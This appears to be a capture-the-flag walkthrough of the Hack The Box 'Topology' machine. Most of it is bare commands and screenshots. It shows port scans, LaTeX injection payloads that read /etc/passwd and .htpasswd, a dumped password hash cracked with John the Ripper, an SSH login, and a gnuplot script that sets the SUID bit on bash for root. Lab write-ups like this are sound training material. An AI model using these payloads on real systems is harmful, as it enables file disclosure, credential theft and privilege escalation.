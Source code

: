 ```
rustscan -a 10.10.11.217 -r 0-65535 --ulimit 5000
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2848c182-a035-407c-8167-78b2790aa9ba)

```
nmap -Pn -sC -sV -p 22,80 10.10.11.217
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/986ea52b-7b18-4807-89ce-f80469c6a13f)

HTTP
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/1d3e4cab-23f5-4ea8-a735-21843a42d7f9)

Latex Equation Generator
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ad08b5ff-4423-4b4d-812a-11baf54aad51)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/c11f8c7b-5fe3-4090-80de-432c5c73cb73)

Subdomain
```
http://latex.topology.htb/
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/23789ad6-aaf8-4b16-8d3c-a1cd682b99ad)

Latex Injection LFI
```
$\lstinputlisting{/etc/passwd}$
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/42f0bed3-ee29-42cd-834c-155489d60216)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/9f36e1dd-a7ec-4958-8954-be457431bdb2)
```
$\lstinputlisting{/var/www/dev/.htaccess}$
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4ae5a043-96cc-4fec-885d-ad5e9fc40c3e)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/7a59670b-97b4-46fe-b381-f61626e7eb93)
```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/48421c5f-fc30-48c0-a114-0c6e1b7667f8)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f59ad50d-05ab-42ff-83a5-8f8cb3e56d44)
```
Credentials:
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```

Crack Password
```
john --wordlist=/usr/share/wordlists/rockyou.txt passwd.txt  
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4c35748f-271b-4da8-bca4-3aeb6b61b715)
```
Cracked Password: calculus20
```

SSH
```
ssh vdaisley@10.10.11.217
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e79458fc-bfad-4c93-b993-6c9bf105d98a)

Privilege Escalation

Upload PSPY
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/de0a9d35-057a-484b-9013-771c9864fb17)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/70fad80b-5c24-4e2d-81d4-9b0233e4883e)
```
echo "system 'chmod u+s /bin/bash'" > /opt/gnuplot/payload.plt
/bin/bash -p
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/9d624f38-7dfe-4379-ba5a-daca37478bbf)
